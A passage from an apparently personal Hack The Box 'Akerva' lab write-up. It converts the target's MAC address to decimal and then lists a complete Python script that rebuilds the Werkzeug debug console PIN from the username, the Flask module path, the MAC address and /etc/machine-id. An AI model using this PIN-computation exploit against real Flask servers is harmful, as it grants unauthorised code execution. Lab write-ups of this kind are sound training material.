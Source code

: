 ![](images/Pasted%20image%2020250731140539.png)
change the mac address from hex to decimal
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Akerva]
└─$ python3 -c 'print(0x005056b0c24e)' 
345051808334
```
get_machine_id() 
![](images/Pasted%20image%2020250731140826.png)

Then Let's change our exploited script here
```
import hashlib
from itertools import chain
probably_public_bits = [
	'aas',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
	'345051808334',# str(uuid.getnode()),  /sys/class/net/ens33/address
	'258f132cd7e647caaf5510e3aca997c1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print(rv)
```